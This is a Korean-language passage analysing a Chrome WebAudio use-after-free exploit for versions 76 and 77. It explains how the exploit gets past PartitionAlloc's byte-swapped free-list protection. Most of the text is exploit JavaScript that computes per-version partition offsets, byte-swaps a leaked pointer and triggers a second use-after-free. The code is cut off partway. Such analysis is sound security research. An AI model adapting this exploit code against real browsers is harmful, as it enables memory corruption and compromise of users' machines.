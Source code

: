PartitionAlloc 메모리 할당자는 위처럼 특수한 exploit 보호기법이 존재합니다. 메모리 영역이 free되면 포인터의 주소를 바이트 스왑한 주소가 free list에 추가됩니다. 따라서 이 주소를 참조하려고하면 크래시가 발생해서 exploit이 어려워집니다. 이 기법을 우회하기 위한 바이트 스왑 함수가 존재합니다.

```jsx
let sharedAudioCtx;
let iirFilterFeedforwardAllocationPtr;
 
function initialUAFCallback(addr) {
	sharedAudioCtx = new OfflineAudioContext(1, 1, 3000);
 
	let partitionPageIndexDelta = undefined;
	switch (majorVersion) {
    		case 77: // 77.0.3865.75
        	 	partitionPageIndexDelta = BigInt(-26);
        	break;
    		case 76: // 76.0.3809.87
         		partitionPageIndexDelta = BigInt(-25);
      	   	break;
	}
 
	iirFilterFeedforwardAllocationPtr = getPartitionPageBaseWithinSuperPage(addr, getPartitionPageIndex(addr) + partitionPageIndexDelta) + BigInt(0xFF0);
 
    triggerSecondUAF(byteSwapBigInt(iirFilterFeedforwardAllocationPtr), finalUAFCallback);
}
```

exploit 진행 시, leak된 포인터를 써서 SuperPage 주소를 가져와 확인합니다. exploit이 잘 진행되었으면 면 initialUAFCallback에 temporary_buffer_ 객체의 raw pointer가 전달됩니다. 

이후 leak된 포인터를 이용해 IIRProcessor객체에 존재하는 AudioArray <double> 타입의 feedforward_ 주소를 가져옵니다. 이 배열은 동일한 SuperPage에 존재해야 하지만 다른 버전의 Chrome에서는 이 객체가 다른 PartitionPages에 만들어져서 이를 처리하기 위한 코드가 존재합니다.

```jsx
let floatArray = new Float32Array(10);
let audioBufferArray1 = [];
let audioBufferArray2 = [];
let imageDataArray = [];
 
async function triggerSecondUAF(addr, doneCb) {
	let counter = 0;
	let numChannels = 1;
 
	let audioCtx = new OfflineAudioContext(1, 0x100000, 48000);
 
	let bufferSource = audioCtx.createBufferSource();
	let convolver = audioCtx.createConvolver();
 
	let bigAudioBuffer = audioCtx.createBuffer(numChannels, 0x100, 48000);
	let smallAudioBuffer = audioCtx.createBuffer(numChannels, 0x2, 48000);
 
	smallAudioBuffer.getChannelData(0).fill(0);
 
	for (let i = 0; i < numChannels; i++) {
    		let channelDataArray = new BigUint64Array(bigAudioBuffer.getChannelData(i).buffer);
    		channelDataArray[0] = addr;
	}
 
	bufferSource.buffer = bigAudioBuffer;
	convolver.buffer = smallAudioBuffer;
 
	bufferSource.loop = true;
	bufferSource.loopStart = 0;
	bufferSource.loopEnd = 1;
 
	bufferSource.connect(convolver);
```